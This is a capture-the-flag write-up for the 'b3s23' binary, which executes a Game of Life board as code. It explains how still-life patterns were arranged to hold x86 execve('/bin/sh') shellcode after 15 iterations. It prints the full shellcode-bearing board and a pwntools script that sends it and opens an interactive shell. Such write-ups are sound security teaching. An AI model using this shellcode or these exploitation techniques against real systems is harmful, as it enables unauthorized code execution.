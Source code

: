 # bs323

> Welcome to b3s23.  Enter x,y coordinates.  Enter any other character to run.

Basic interaction with the binary quickly indicates that the program interprets the input as the set of live cells on a Conway's Game of Life board. After some minor reverse engineering, we see that the board is stored as a 12100-bit array, in 110 rows of 110 bits each. The binary runs 15 iterations of Game of Life on the board, and then it jumps to the first byte of the board data structure. So we need to create a board that will have shellcode at the start of the board after the Game of Life iterations.

## Game of Life
Conway's Game of Life is a famous cellular automata game. The rules are simple. The game takes place on a square grid, and a set of cells is initially colored black, or alive. The rest of the cells are considered dead. The game proceeds in steps. Each turn, you count each cell's number of live neighbors. If a live cell has 0 or 1 neighbors, it dies (turns white) in the next step (underpopulation). If a live cell has 4 or more neighbors, it also dies in the next step (overpopulation). A dead cell with exactly three neighbors becomes alive (reproduction).

This block has the implementation of the basic Game of Life rules, first counting a cell's neighbors and then deciding whether to make it alive in the next step.

![Game of Life block]
(images/isgameoflife.png)

## Shellcode Evolution
Since the entire point of Game of Life is that the evolution is difficult to predict (in fact, it's capable of representing Turing-complete computation), we need to set up the board carefully so it will evolve predictably. The easiest way to do this is to place only static structures on the board. Game of Life enthusiasts have created catalogs of all the small static patterns, which are known as "still-lifes". See http://codercontest.com/mniemiec/p1.htm for one useful example.

Execution effectively occurs across the board's rows, so we can place the code without regard to its Game of Life evolution and then use the surrounding rows to make the executing row static. We'll have to use jumps to get from each executing row to the next.

## Shellcode Choice
The shortest approach is to put code that calls `read` with the board as the destination and then send the real shellcode. Unfortunately, we didn't think of this during the competition, so we just put standard shellcode (`execve("/bin/sh", {"/bin/sh, NULL"}, ))`) on the board.

## Still-life Construction
Constructing still-lifes containing arbitrary code is actually somewhat difficult. For example, we could not find a small still-life that we could place on the board to create a sequence of five or more consecutive one-bits (live cells). So we just avoided any instructions or data with that many ones in a row.

One useful primitive to decouple adjacent instructions is the instruction `add al, 0`, which is represented as `0x04 0x00` in machine code. This instruction allows you to separate any potentially problematic adjacent instructions, because essentially all the bits are off.

One other useful primitive to combine still-life patterns is that adjacent walls (vertical sequences of live cells) do not interfere, as long as they match. So the following arrangement of two still-life patterns (the snake and the block) works:
```
xx x xx
x xx xx
```

Of course, any patterns separated by a gap of two columns or two rows will not interfere as well.

## Board
Below, we have the board we used, with shellcode inline. Executing lines are marked as beginning with `>` characters and ending with `|` characters.

```
>xxx   x   xxxx  | JNO $+1Eh;
x   x x x  x  x                       x xx x xx x xx
 x  x x x                       >   xxx x xx x xx x  | JMP $+5A;
  x x xx                           x               xxx
   x                               xx                x 

PUSH $0; PUSH $68h; XOR EAX, EAX; OR AL, $2Fh; ADD AL, $0; JMP $+55h;                       x   x
   xx xx           xx xx                   x          xx   xx x  x                  x xx x x x x x 
>  xx x x          xx x x  xx x     xx   xxx          xx    x xxxx     x          xxx x xx x x x x|
      x x             x x  x xx     xx  x                   x         x x        x          x   x
      xx              xx                xx                 xx   xx     x         xx
                                                                xx

OR AH, $73h; PUSH AX; PUSH $0Bh; POP EAX; JMP $+56h;                              x   
                           x              x      xx xx                    x xx x x x xx
>       x       xx  xx   xxx  xx xx  xx  x x     xx x x     x xx x xx   xxx x xx x x xx |
       x x      xx  xx  x     xx xx  xx   x         x x     xx x xx x  x          x    
        x               xx                          xx                 xx         

PUSH $6E69626Fh; ADD AL, 0; PUSH ESP; POP EBX; JNO $+56h;
                                            xx     x                                  x   x
       xx xx   xx x  x xx  xx                x    x x          xx     xx xx xx x     x x x x xx
>      xx x     x xxxx xx   x  xx x  x xx xxx      x           x x x   x xx xx xxx   x x x x xx |
          x     x          x   x xx  xx x x                       xx   x          x   x   x
          xx   xx   xx xx  xx                                         xx         xx
                    xx xx                                                     
PUSH ESP; POP ECX; XOR EDX, EDX; PUSH EDX; PUSH EBX; PUSH ESP; POP ECX; INT $80h;
                                                                 x
     xx           xx  xx     x xx    xx  xx   x   xx xx      xx x x
>    x x x   x xx  x  xx   xxx x  x  x x  x  x x  xx x x x   x xx  x     x          xx  xx xx |
        xx   xx x x       x      xx     xx    x         xx        xx    x x         xx  xx xx
                 x        xx                                             x
```

## Script
The following Python code converted this board into the program input and ran the exploit:

```
import re
from pwn import *

f = open('board.txt')
s = f.read()

rows = s.split('\n')
coords = [[(a.start(),i) for a in re.finditer('x', rows[i])] for i in range(len(rows))]
flatcoords = reduce(lambda x,y: x+y, coords)

tube = process("./b3s23")

for (x,y) in flatcoords:
    tube.writeline('{},{}'.format(x,y))

tube.writeline('lol')

for i in range(15):
    tube.recvuntil('01110001000111100000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000')

tube.interactive()
```

